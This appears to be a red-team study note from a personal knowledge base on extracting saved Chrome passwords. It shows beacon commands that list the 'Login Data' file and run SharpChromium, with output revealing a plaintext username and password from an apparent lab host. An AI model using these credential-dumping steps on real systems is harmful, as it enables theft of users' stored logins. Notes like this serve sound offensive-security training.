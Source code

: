 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Chrome Passwords]]  
___

## Description:  
Chrome stores DPAPI-protected credentials in a local SQLite database, which can be found within the user's local `AppData` directory.
```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 40kb     fil     02/25/2021 13:21:18   Login Data
```

A non-null `Login Data` file is a good indication that credentials are saved in here. [SharpChromium](https://github.com/djhohnstein/SharpChromium) is my go-to tool for decrypting these.
```
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: bfarmer) ---
URL      : 
Username : bfarmer
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (10:09 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

